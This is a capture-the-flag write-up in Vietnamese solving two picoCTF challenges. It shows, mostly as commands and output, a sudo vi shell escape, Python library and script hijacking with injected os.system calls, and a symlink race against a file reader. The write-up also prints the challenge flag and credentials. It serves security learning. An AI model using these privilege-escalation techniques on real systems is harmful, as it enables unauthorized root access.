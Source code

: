 
- [hijacking](#hijacking )
- [toctou](#toctou)

## hijacking 
ssh **username**@**hostname** -p **port**

```shell
picoctf@challenge:~$ sudo -l
Matching Defaults entries for picoctf on challenge:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User picoctf may run the following commands on challenge:
    (ALL) /usr/bin/vi
    (root) NOPASSWD: /usr/bin/python3 /home/picoctf/.server.py

```

```shell
picoctf@challenge:~$ ls -la
total 16
drwxr-xr-x 1 picoctf picoctf   20 Aug  5 08:24 .
drwxr-xr-x 1 root    root      21 Aug  4 21:10 ..
-rw-r--r-- 1 picoctf picoctf  220 Feb 25  2020 .bash_logout
-rw-r--r-- 1 picoctf picoctf 3771 Feb 25  2020 .bashrc
drwx------ 2 picoctf picoctf   34 Aug  5 08:24 .cache
-rw-r--r-- 1 picoctf picoctf  807 Feb 25  2020 .profile
-rw-r--r-- 1 root    root     375 Mar 16 01:30 .server.py

```

Chúng ta cần tìm nơi có khả năng đang chứa flag.

```shell
picoctf@challenge:~$ cd /
picoctf@challenge:/$ ls -la
total 0
drwxr-xr-x    1 root   root     51 Aug  5 09:05 .
drwxr-xr-x    1 root   root     51 Aug  5 09:05 ..
-rwxr-xr-x    1 root   root      0 Aug  5 09:05 .dockerenv
lrwxrwxrwx    1 root   root      7 Mar  8 02:05 bin -> usr/bin
drwxr-xr-x    2 root   root      6 Apr 15  2020 boot
d---------    1 root   root      6 Aug  4 21:11 challenge
drwxr-xr-x    5 root   root    340 Aug  5 09:05 dev
drwxr-xr-x    1 root   root     66 Aug  5 09:05 etc
drwxr-xr-x    1 root   root     21 Aug  4 21:10 home
lrwxrwxrwx    1 root   root      7 Mar  8 02:05 lib -> usr/lib
lrwxrwxrwx    1 root   root      9 Mar  8 02:05 lib32 -> usr/lib32
lrwxrwxrwx    1 root   root      9 Mar  8 02:05 lib64 -> usr/lib64
lrwxrwxrwx    1 root   root     10 Mar  8 02:05 libx32 -> usr/libx32
drwxr-xr-x    2 root   root      6 Mar  8 02:06 media
drwxr-xr-x    2 root   root      6 Mar  8 02:06 mnt
drwxr-xr-x    2 root   root      6 Mar  8 02:06 opt
dr-xr-xr-x 2145 nobody nogroup   0 Aug  5 09:05 proc
drwx------    1 root   root     23 Aug  4 21:11 root
drwxr-xr-x    1 root   root     54 Aug  5 09:06 run
lrwxrwxrwx    1 root   root      8 Mar  8 02:05 sbin -> usr/sbin
drwxr-xr-x    2 root   root      6 Mar  8 02:06 srv
dr-xr-xr-x   13 nobody nogroup   0 Aug  5 09:05 sys
drwxrwxrwt    1 root   root      6 Aug  4 21:11 tmp
drwxr-xr-x    1 root   root     18 Mar  8 02:06 usr
drwxr-xr-x    1 root   root     17 Mar  8 02:09 var
picoctf@challenge:/$ cd challenge/
-bash: cd: challenge/: Permission denied
```

trông challenge khá là khả nghi


Chúng ta sẽ có tới 3 cách solve chall này:

1. Thực hiện việc lợi dụng vi để leo thang đặc quyền
2. Chỉnh sửa file thư viện, để khi thực thi .server.py => thực thi nốt 
3. Chỉnh sửa ngay luôn file .server.py

## Thực hiện việc lợi dụng vi để leo thang đặc quyền

[for more](https://gtfobins.github.io/gtfobins/vi/)

```shell
picoctf@challenge:~$ sudo /usr/bin/vi

metadata.json

Press ENTER or type command to continue
cat: metadata.json: No such file or directory

shell returned 1

Press ENTER or type command to continue
{"flag": "picoCTF{pYth0nn_libraryH!j@CK!n9_f56dbed6}", "username": "picoctf", "password": "3aKUWQv068"}
Press ENTER or type command to continue
```

1. **:! ls /challenge/**
2. **:! cat /challenge/metadata.json**

Cụ thể hơn:

```shell
picoctf@challenge:/$ sudo  /usr/bin/vi  -c ':! ls -la /challenge'

total 4
d--------- 1 root root   6 Aug  4 21:11 .
drwxr-xr-x 1 root root  63 Aug  5 09:05 ..
-rw-r--r-- 1 root root 103 Aug  4 21:11 metadata.json

Press ENTER or type command to continue
picoctf@challenge:/$ sudo  /usr/bin/vi  -c ':! cat /challenge/metadata.json'

{"flag": "picoCTF{pYth0nn_libraryH!j@CK!n9_f56dbed6}", "username": "picoctf", "password": "3aKUWQv068"}
Press ENTER or type command to continue
```

## Chỉnh sửa file thư viện, để khi thực thi .server.py => thực thi nốt

```shell
picoctf@challenge:~$ find / -name "base64.py"
find: ‘/etc/ssl/private’: Permission denied
find: ‘/proc/tty/driver’: Permission denied
............
............
find: ‘/root’: Permission denied
find: ‘/run/sudo’: Permission denied
/usr/lib/python3.8/base64.py
find: ‘/var/lib/private’: Permission denied
find: ‘/var/log/private’: Permission denied
find: ‘/challenge’: Permission denied

```

```shell
picoctf@challenge:~$ ls -la /usr/lib/python3.8/base64.py
-rwxrwxrwx 1 root root 20423 Aug  5 08:34 /usr/lib/python3.8/base64.py

```

Bây giờ vào file base64.py và inject :

```python
import os

os.system("ls -la /challenge")
os.system("cat /challenge/metadata.json")

```


```shell
picoctf@challenge:~$ vi  /usr/lib/python3.8/base64.py

picoctf@challenge:~$ sudo /usr/bin/python3  /home/picoctf/.server.py
total 4
d--------- 1 root root   6 Aug  4 21:11 .
drwxr-xr-x 1 root root  63 Aug  5 08:33 ..
-rw-r--r-- 1 root root 103 Aug  4 21:11 metadata.json
{"flag": "picoCTF{pYth0nn_libraryH!j@CK!n9_f56dbed6}", "username": "picoctf", "password": "3aKUWQv068"}sh: 1: ping: not found
Traceback (most recent call last):
  File "/home/picoctf/.server.py", line 9, in <module>
    host_info = socket.gethostbyaddr(ip)
socket.gaierror: [Errno -5] No address associated with hostname

```

### Chỉnh sửa ngay luôn file .server.py

Bây giờ vào file .server.py và inject :

```python
import os

os.system("ls -la /challenge")
os.system("cat /challenge/metadata.json")

```

```shell
picoctf@challenge:~$ sudo /usr/bin/vi  /home/picoctf/.server.py
picoctf@challenge:~$ sudo /usr/bin/python3  /home/picoctf/.server.py
total 4
d--------- 1 root root   6 Aug  4 21:11 .
drwxr-xr-x 1 root root  63 Aug  5 08:33 ..
-rw-r--r-- 1 root root 103 Aug  4 21:11 metadata.json
{"flag": "picoCTF{pYth0nn_libraryH!j@CK!n9_f56dbed6}", "username": "picoctf", "password": "3aKUWQv068"}sh: 1: ping: not found
Traceback (most recent call last):
  File "/home/picoctf/.server.py", line 10, in <module>
    host_info = socket.gethostbyaddr(ip)
socket.gaierror: [Errno -5] No address associated with hostname

```


## toctou

[More detail](https://brandon-t-elliott.github.io/tic-tac)

```python
timeout 30s bash -c 'while true; do ln -sf src.cpp flag; ln -sf flag.txt flag; done' &
while ! ./txtreader flag 2> /dev/null | grep "picoCTF"; do :; done
```